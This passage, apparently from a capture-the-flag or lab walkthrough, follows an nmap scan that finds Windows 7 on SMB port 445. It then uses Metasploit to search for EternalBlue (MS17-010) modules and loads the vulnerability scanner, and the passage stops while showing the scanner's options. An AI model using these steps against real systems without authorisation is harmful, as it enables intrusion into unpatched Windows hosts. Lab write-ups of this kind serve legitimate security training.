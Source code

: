 Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 107.87 seconds.
```
We can see that there is Windows 7 Professional 6.1 on port 445. We can use smbclient, we run metasploit on it as well. A recent exploit on SMB is called eternal blue(ms17-010). I mean its in the name :p.

## Method 1: Using Metasploit.

Type this command in your terminal to open metasploit console.
```msfconsole```

Type to check if there is any scanner or payload available for ms17-010.

You can use the ```search``` command.
```
msf6 > search ms17-010

Matching Modules
================

   #  Name                                           Disclosure Date  Rank     Check  Description
   -  ----                                           ---------------  ----     -----  -----------
   0  auxiliary/admin/smb/ms17_010_command           2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   1  auxiliary/scanner/smb/smb_ms17_010                              normal   No     MS17-010 SMB RCE Detection
   2  exploit/windows/smb/ms17_010_eternalblue       2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   3  exploit/windows/smb/ms17_010_eternalblue_win8  2017-03-14       average  No     MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+
   4  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   5  exploit/windows/smb/smb_doublepulsar_rce       2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution


```
As you can see there is a scanner available on the 1st option.

You can simply type ```use 1``` or ```use auxiliary/scanner/smb/smb_ms17_010```.

Now we will check what are the options available in this scanner.
```
msf6 auxiliary(scanner/smb/smb_ms17_010) > options

Module options (auxiliary/scanner/smb/smb_ms17_010):

   Name         Current Setting                                                 Required  Description
   ----         ---------------                                                 --------  -----------
   CHECK_ARCH   true                                                            no        Check for architecture on vulnerable hosts
   CHECK_DOPU   true                                                            no        Check for DOUBLEPULSAR on vulnerable hosts
   CHECK_PIPE   false                                                           no        Check for named pipe on vulnerable hosts
   NAMED_PIPES  /usr/share/metasploit-framework/data/wordlists/named_pipes.txt  yes       List of named pipes to check
   RHOSTS                                                                       yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT        445                                                             yes       The SMB service port (TCP)
   SMBDomain    .                                                               no        The Windows domain to use for authentication